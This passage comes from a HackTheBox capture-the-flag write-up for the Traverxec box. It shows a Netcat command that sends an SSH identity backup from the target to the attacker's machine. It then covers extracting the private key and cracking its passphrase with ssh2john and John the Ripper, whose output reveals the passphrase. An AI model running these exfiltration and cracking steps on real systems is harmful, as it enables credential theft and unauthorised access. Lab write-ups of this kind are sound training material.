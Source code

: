 We found a compressed file called “backup-ssh-identity-files.tgz”, which is definitely a file that we want gets our hands on it. We need to send the file to our machine since we can not uncompressing the file inside the box.


We will send it via Netcat. In the box use the command:

``` bash
nc <Your IP> <port> < backup-ssh-identity-files.tgz //in the Box
nc -l -p <port> > backup-ssh-identity-files.tgz //in your machine

```

<img src="/images/Traverxec-Writeup/3.png" style="display: block; margin: auto;" />

``` bash
root@kali:~/Desktop/HackTheBox/Traverxec# tar xvzf backup-ssh-identity-files.tgz
home/david/.ssh/
home/david/.ssh/authorized_keys
home/david/.ssh/id_rsa
home/david/.ssh/id_rsa.pub
```

After decompress the file, We will find private and public ssh keys. Try access the machine via SSH using David user account and the aforementioned SSH private key.

``` bash
root@kali:~/Desktop/HackTheBox/Traverxec# ssh -i id_rsa david@10.10.10.165
Enter passphrase for key 'id_rsa': 
```

A passphrase is needed to access the machine. We will try to crack it by JohnTheRipper tool. First of all, we need to convert the ssh key to a hash that the JTR tool can crack. We will use “ssh2john” script for that. To find the script’s path, run the command “locate ssh2john”.

``` bash
/usr/share/john/ssh2john.py <Private_Key> > Hash_File
```

<img src="/images/Traverxec-Writeup/4.png" style="display: block; margin: auto;" />

Now we will use JohnTheRipper tool to crack the converted hash.

``` bash
root@kali:~/Desktop/HackTheBox/Traverxec# john hash.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Warning: Only 1 candidate buffered for the current salt, minimum 8 needed for performance.
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst, rules:Wordlist
hunter           (id_rsa)
Proceeding with incremental:ASCII
1g 0:00:00:05  3/3 0.1869g/s 2016Kp/s 2016Kc/s 2016KC/s mimpsox
Session aborted
```
